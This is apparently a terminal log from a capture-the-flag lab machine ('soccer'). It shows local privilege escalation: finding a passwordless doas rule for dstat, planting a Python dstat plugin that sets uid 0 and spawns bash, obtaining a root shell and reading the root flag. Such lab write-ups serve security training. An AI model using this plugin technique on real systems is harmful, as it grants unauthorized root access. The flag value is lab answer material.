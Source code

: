 /snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:~$ 



player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ 



player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat


https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/


player@soccer:~$ vi /usr/local/share/dstat/xabaras.py



import os
os.setuid(0)
os.system("/bin/bash")
~                                                                                                                                                                                                            




player@soccer:~$ /usr/local/bin/doas -u root /usr/bin/dstat --xabaras
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# if
> 
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
root@soccer:/home/player# cat /root/root.txt 
b35fe80d70d15e0f4334b1ddb8d7060e
root@soccer:/home/player# 









